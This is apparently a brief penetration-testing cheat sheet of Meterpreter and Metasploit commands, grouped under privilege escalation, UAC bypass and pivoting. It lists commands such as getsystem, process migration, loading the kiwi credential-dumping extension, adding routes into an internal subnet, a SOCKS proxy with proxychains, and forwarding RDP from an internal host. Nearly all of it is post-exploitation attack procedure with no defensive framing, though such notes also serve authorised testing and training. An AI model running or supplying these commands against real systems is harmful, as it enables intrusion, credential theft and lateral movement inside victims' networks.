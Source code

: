getsystem
migrate
execute -H -f notepad

### UAC bypass

Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
search UAC and use exploit
load kiwi

### Pivoting

route add 172.16.5.0/24 12
route print
use auxiliary/scanner/portscan/tcp
use multi/manage/autoroute
use auxiliary/server/socks_proxy
use with proxychains
portfwd add -l 3389 -p 3389 -r 172.16.5.200